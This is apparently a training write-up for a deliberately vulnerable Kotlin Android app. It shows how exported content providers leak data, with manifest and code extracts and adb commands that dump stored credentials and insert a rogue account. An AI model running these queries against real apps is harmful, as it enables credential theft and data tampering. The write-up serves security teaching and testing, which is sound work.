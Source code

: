 M1: Improper Platform Usage
===========================
From the [Android documentation] [4]: "Content providers are one of the primary building blocks of Android applications, providing content to applications". Content providers are mostly used to share data between Android applications. Such as Activities, Services or Receivers, Content providers can have weak permissions or can be exported for all the apps on the device. Such misconfiguration can lead the Android app to leak the data used by the Content provider.

When the Content provider is exported, all the apps can query the Content provider to retrieve or modify the data. On the kotlin-goat app, we can identify that a Content provider is defined with the name ".AccountProvider" and the exported tag is set to true. Here is an extract of the AndroidManifest file:
```
<provider
            android:name=".AccountProvider"
            android:authorities="com.cx.vulnerablekotlinapp.accounts"
            android:enabled="true"
            android:exported="true" />
```

Looking at the code on the AccountProvider.kt class, we can retrieve the Content URI:
```
companion object {
        private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
        private val ACCOUNTS_TABLE = "Accounts"
        val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
        private val DATABASE_NAME = "data"
    }
```

Then, using the adb tool, we can query this provider and even insert data. Here is simple example allowing to query the provider in order to retrieve the accounts stored:
```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin

```
We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the kotlin-goat app:
```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat

```

In the same manner, the app leaks a Content provider named ".NotesProvider" for the notes created by the user.
Here is the definition of the Content provider in the Android manifest:
```
<provider
            android:name=".NotesProvider"
            android:authorities="com.cx.vulnerablekotlinapp.notes"
            android:enabled="true"
            android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the NotesProvider class:
```
 companion object {
        private val AUTHORITY = "com.cx.vulnerablekotlinapp.notes"
        private val NOTES_TABLE = "Notes"
        val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
        private val DATABASE_NAME = "data"
    }
```

Again, with the adb tool, we can query this provider and retrieve the notes stored:
```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text (the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient Cryptography][8]

More information about how to test improper platform usage can be found on the [OWASP Mobile Testing Guide][5] and especially on the [Testing Platorm Interaction] [6] section.

## Resources

### Tools

* adb
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [OWASP Mobile Testing Guide][5]
* [Testing Platform Interaction][6]
* [M1: OWASP Mobile Top 10 2016][7]

[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography